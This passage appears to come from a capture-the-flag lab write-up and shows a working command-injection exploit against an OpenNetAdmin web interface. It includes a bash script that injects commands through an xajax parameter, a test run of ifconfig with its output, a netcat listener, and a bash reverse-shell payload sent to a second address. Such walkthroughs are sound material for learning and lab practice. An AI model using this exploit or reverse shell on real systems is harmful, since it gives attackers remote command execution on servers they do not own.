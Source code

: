 ```bash
#!/bin/bash

URL="${1}"
while true;do
 echo -n "$ "; read cmd
 curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
done
```

The script looks easy to repy, I'll first try to execute `ifconfig` and if it works, we then try a reverse shell.

```bash
❯ curl -s -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo;ifconfig&xajaxargs[]=ping" http://10.129.136.167/ona/
```

```html
  <pre style="padding: 4px;font-family: monospace;">
ens160: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.129.136.167  netmask 255.255.0.0  broadcast 10.129.255.255
        inet6 dead:beef::250:56ff:feb0:be91  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::250:56ff:feb0:be91  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:b0:be:91  txqueuelen 1000  (Ethernet)
        RX packets 99282  bytes 6727143 (6.7 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 75094  bytes 6421308 (6.4 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 11863  bytes 942899 (942.8 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 11863  bytes 942899 (942.8 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

</pre>
```

It worked! Let's set up a listener on port 80 with `netcat` to catch the reverse shell.

```bash
❯ nc -lvnp 80
```

Payload used: `bash -c 'bash -i >& /dev/tcp/10.10.14.178/80 0>&1` (URL encode the `&`).

```bash
❯ curl -s -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo;bash -c 'bash -i >%26 /dev/tcp/10.10.14.178/80 0>%261'&xajaxargs[]=ping" http://10.129.136.167/ona/
```
